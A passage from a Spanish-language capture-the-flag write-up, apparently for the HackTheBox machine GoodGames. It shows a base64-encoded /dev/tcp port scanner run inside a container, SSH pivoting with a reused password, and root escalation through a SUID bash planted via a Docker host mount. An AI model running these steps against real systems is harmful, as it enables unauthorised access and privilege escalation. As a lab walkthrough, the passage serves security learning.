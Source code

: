 ```bash
```

```bash
base64 -w 0 portScan.sh | xclip -sel clip
```

Nos creamos el script en nuestra máquina atacante y nos lo pegamos en la máquina objetivo para enviarlo a un archivo, darles permios de ejecución y escanear los puertos abiertos por la red interna del contenedor

```bash
echo IyEvYmluL2Jhc2gKCmZ1bmN0aW9uIGN0cmxfYygpewogIGVjaG8gLWUgIlxuXG5bIV0gU2FsaWVuZG8uLi5cbiIKICB0cHV0IGNub3JtOyBleGl0IDEKfQoKIyBDdHJsK0MKdHJhcCBjdHJsX2MgSU5UCgp0cHV0IGNpdmlzCgpmb3IgcG9ydCBpbiAkKHNlcSAxIDY1NTM2KTsgZG8KICB0aW1lb3V0IDEgYmFzaCAtYyAiZWNobyAnJyA+IC9kZXYvdGNwLzE3Mi4xOS4wLjEvJHBvcnQiIDI+L2Rldi9udWxsICYmIGVjaG8gIlsrXSBQdWVydG8gYWJpZXJ0bzogJHBvcnQiICYKZG9uZTsgd2FpdAp0cHV0IGNub3JtCg== | base64 -d > portScan.sh
```

Resultado:

```bash
[+] Puerto abierto: 22
[+] Puerto abierto: 80
^C
```


---

### Pivoting

```bash
ssh augustus@172.19.0.1
```

```bash
augustus@172.19.0.1's password: superadministrator

...

augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:fe94:a818 
```

Explicación: tenemos una reutilización de contraseñas, podemos acceder al usuario `augustus` que conecta con la IP de la máquina objetivo `10.10.11.130`

Acciones:

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
root@3a453ab39d3d:/backend# cd /home/augustus
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@GoodGames:~$ ./bash -p
```

Explicación: aprovechamos que el contenedor está montado desde la raíz de root y que tenemos ciertos permisos para poder ejecutarnos una bash como usuario root.

[Ver explicación detallada en Escapa Docker](Escape%20Docker.md)

---

